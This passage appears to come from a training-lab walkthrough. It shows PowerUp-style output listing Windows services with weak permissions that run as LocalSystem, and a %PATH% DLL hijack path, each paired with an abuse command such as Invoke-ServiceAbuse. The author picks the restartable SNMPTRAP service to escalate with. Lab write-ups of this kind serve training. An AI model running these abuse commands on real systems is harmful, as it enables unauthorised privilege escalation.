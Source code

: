 ```powershell
CanRestart                      : False
Name                            : edgeupdatem
Check                           : Modifiable Service Files

ServiceName                     : edgeupdatem
Path                            : "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /medsvc
ModifiableFile                  : C:\
ModifiableFilePermissions       : WriteData/AddFile
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'edgeupdatem'
CanRestart                      : False
Name                            : edgeupdatem
Check                           : Modifiable Service Files

ServiceName   : AbyssWebServer
Path          : C:\WebServer\Abyss Web Server\abyssws.exe -service
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'AbyssWebServer'
CanRestart    : True
Name          : AbyssWebServer
Check         : Modifiable Services

ServiceName   : SNMPTRAP
Path          : C:\Windows\System32\snmptrap.exe
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'SNMPTRAP'
CanRestart    : True
Name          : SNMPTRAP
Check         : Modifiable Services

ModifiablePath    : C:\Users\student867\AppData\Local\Microsoft\WindowsApps
IdentityReference : dcorp\student867
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\student867\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\student867\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\student867\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'
```

There're multiple service vulnerable, in this case i choose a service with CanRestart attribute equals to 'True'&#x20;

```powershell
ServiceName   : SNMPTRAP
Path          : C:\Windows\System32\snmptrap.exe
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'SNMPTRAP'
CanRestart    : True
Name          : SNMPTRAP
Check         : Modifiable Services
```
